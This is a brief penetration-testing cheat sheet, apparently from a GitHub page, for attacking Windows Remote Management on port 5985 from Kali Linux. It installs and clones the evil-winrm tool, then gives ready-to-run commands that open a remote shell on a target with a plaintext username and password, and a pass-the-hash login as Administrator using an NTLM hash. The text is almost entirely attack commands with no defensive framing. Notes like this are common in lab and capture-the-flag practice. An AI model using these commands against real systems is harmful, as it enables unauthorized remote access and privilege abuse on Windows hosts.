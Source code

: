**WinRM (Windows Remote Management) used against WinRM services (Microsoft implementation of WS-Management Protocol), usually port 5985.**
```bash - kali
sudo gem install winrm winrm-fs colorize stringio
```
```bash - kali
cd /opt && sudo git clone https://github.com/Hackplayers/evil-winrm.git
```
#### Shell with WinRM
```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u jamie -p 'rangers'
```
#### Passing the hash
```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u Administrator -H '823452073d75b9d1cf70ebdf86c7f98e'
```
